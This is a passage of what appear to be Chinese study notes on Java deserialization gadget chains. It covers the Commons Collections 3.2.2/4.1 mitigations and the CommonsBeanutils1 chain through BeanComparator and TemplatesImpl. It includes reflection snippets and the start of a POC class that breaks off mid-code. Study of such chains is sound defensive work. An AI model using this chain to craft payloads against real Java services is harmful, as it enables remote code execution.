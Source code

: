 

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221206173016563.png)



在4.1和3.2.2更新了`FunctorUtils#checkUnsafeSerialization`，3.2.2默认情况下会检测常见危险transformer(InstantiataTransformer、InvokerTransformer、PrototypeFactory等)的readObject进行调用，4.1这几个类直接不再实现Serilalizable接口



# CommonsBeanutil

javaBean的介绍：https://www.liaoxuefeng.com/wiki/1252599548343744/1260474416351680

从中可以了解到getter、setter、属性的概念。

在上文，我们用`PriorityQueue#compare()`来触发`TransformingComparator#transform()`。除了这种方式外，还有`org.apache.commons.beanutils.BeanComparator.compare()`

BeanComparator.compare()方法代码如下：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221206184052378.png)

其中的getProperty方法可以调用任意javaBean的getter方法（形如`getName`)。

```java
Object value1 = PropertyUtils.getProperty(o1,this.property);
```

该方法甚至可以递归查询:`PropertyUtils.getProperty(o1,"o2.name");`



现在反序列化链为：

`BeanComparator#compara()`->`PropertyUtils.getProperty()`-> `TemplatesImpl#getOutputProperties() -> TemplatesImpl#newTransformer() -> TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses() -> TransletClassLoader#defineClass()`



`getOutputProperties()`符合getter的定义，所以property(属性名)的值为OutputProperties时，触发反序列化链。PriorityQueue队列和property的值可以用反射的方式修改。

```java
setFieldValue(comparator, "property", "outputProperties");
setFieldValue(queue, "queue", new Object[]{obj, obj});
```



POC：

```java
package org.example;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.beanutils.BeanComparator;
public class CommonsBeanutils1 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception {
```